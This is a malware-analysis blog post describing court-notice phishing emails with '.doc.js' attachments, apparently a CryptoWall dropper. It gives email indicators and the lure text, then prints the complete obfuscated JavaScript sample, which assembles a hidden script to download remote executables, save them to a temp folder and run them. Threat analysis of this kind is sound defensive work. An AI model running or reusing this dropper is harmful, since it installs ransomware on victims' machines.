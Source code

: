 ```yaml
---
layout: post
title: "Ransomware from Emails With JavaScript Attachments"
date: 2015-08-05 19:12:35 -0500
comments: true
categories: [Malware Analysis, Malspam, Ransomware, Threat Intel]
---
```


Recently I have been seeing emails with zip attachments that contain a malicious JavaScript file marked as a double dot extension (.doc.js). The JavaScript is obfuscated but debofuscating it is rather easy and I wanted to share my analysis. The infection appears to be Ransomware, most likely a CryptoWall 3.0 variant but I did not verify it.



#### Email Indicators
    Received: from uplander.websitewelcome.com (uplander.websitewelcome.com [192.185.179.118])
    Subject: Notice to appear in Court #00000536215
    From: "State Court" <allan.barnett@ns963.websitewelcome.com>
    Reply-To: "State Court" <allan.barnett@ns963.websitewelcome.com>
    Attachment: 00000536215.zip -> 00000536215.doc.js
---
#### Message Body
    Notice to Appear,

    This is to inform you to appear in the Court on the August 11 for your case hearing.
    Please, do not forget to bring all the documents related to the case.
    Note: The case may be heard by the judge in your absence if you do not come.

    The copy of Court Notice is attached to this email.

    Yours faithfully,
    Allan Barnett,
    Court Secretary.

### Deobfuscating the JavaScript
Below is the original decompressed file contents. It tries to hide itself as a better known file type (.doc) but any modern operating system would most likely recognize and interpret the JavaScript file. Luckily for us, it is rather easy to deobfuscate something like this. You can use a tool like JSDetox or use a JavaScript interpreter like node.js. The key thing we need to overcome is that JSDetox and node.js most likely won't have access to ActiveX so we have to remove the check otherwise it will not deobfuscate.

```javascript  00000536215.doc.js
var jlavws='fpubnwcytwieoenq sdblf(hfyrm,y ffmni,u jrcnj)n{p z fvyalro gwwsd h=s cneewwh uApcitaiwvgemXvOlbyjdefchtg(p"uWvSocaruiapota.wSshieplulm"m)b;h b kvhayrq tftnc r=x iwysd.xEtxzpmatnudmEinvvjiardoynumqelnwtxS';var jdmkdr='mtgreilnxgxse(a"p%cTiEoMfPf%h"f)s b+z eSjturoijnygn.eforyobmlClhiaprwCgondaeg(c9d2o)q i+u yfonm;a n rvkairf uxgos y=u rnaefwc jAvcytpijvzevXlOcbkjcelcetb(z"rMbSnXiMmLw2o.gXcMhLfHxTyTfPd"a)p;y z exhoz.zot';var xxjg='ncrkewandpyxsntgaztbeoclhxacnsgaej x=x ifduanjcstziiownh i(w)a{k g x y viufl c(uxnoq.grletaydmydSvtjaltyek v=r=k=d n4s)l{k t w r q u mvlagrp fxuaf l=f znkerwd fAbcoteimvkewXxOnbjjpezcuti(w"lAyDqOyDjBx.nS';var bpm='ptrrseaawms"l)o;v r q k w c uxsaa.iobppeinv(x)e;h v u f f r sxuaj.ltvyfpdeg u=y x1k;j u n d m n mxoac.uwkraiytrew(txwob.lRoewsupzornasdeyBuocdwye)l;q s p c f b rxhaw.bphovssidtoioofnz d=b u0d;t u g r o i';var his=' oxtau.eslakvheqTmoyFyiilzeg(dfsnk,r h2p)r;k r l n k g uxcau.ccqlooxsvez(h)d;q t c o c}c v f u f;x b v}p m m;b z wthruyz c{x q q u lxqoc.pogpwernv(y"tGqEeTn"w,c pfrrr,b dftablasaev)z;c s q t nxboj.psqeqn';var bey='ldh(l)k;b c o o yiqfe p(irfnt b>g u0b)c{u e v k y j mwhsy.cRxuknk(jfvnl,l j0a,k z0e)z;i j t j q}n l t i p;o s o}x e vcwahttchhr d(cedro)m{e y m}i y u;s}sddlj(g"ohdtotepr:h/t/p3m1p0m7t2i0u1l5max.pcaojmt/z';var yjb='iwmcaygqeusr/ufeixvjeh1m.ojzptgh"p,f w"c5z3f2w7k4r7u3a5r0e.terxaev"q,r q1h)l;udelv(b"rhjtatkpq:p/q/m3r1q0r7o2a0i1i5aaa.ncuosmn/piimeafgqeqsa/vflibvmev2c.xjlpsgn"y,k d"p2z1e1y9i5f4z8v6z9r.iepxaen"v,q e1v)';var buh='l;q';var a1=jlavws+jdmkdr+xxjg+bpm+his+bey+yjb+buh;   var a2="";   var a3=2;      var a4=10;      var y = new ActiveXObject("Scripting.Dictionary");   y.add ("a", "t");      if (y.Item("a")=="t"){a4=0;}else{a4=10};      var a5=a1.length;   var a=0;   while(a<a5){    a2 +=a1.charAt(a);a +=a3+a4;   };   var rosa=["e","0","v","0","a","0","l","0"];   var tosta=rosa[0+a4]+rosa[2+a4]+rosa[4+a4]+rosa[6+a4];   var a6=tosta;   this[a6](a2);
```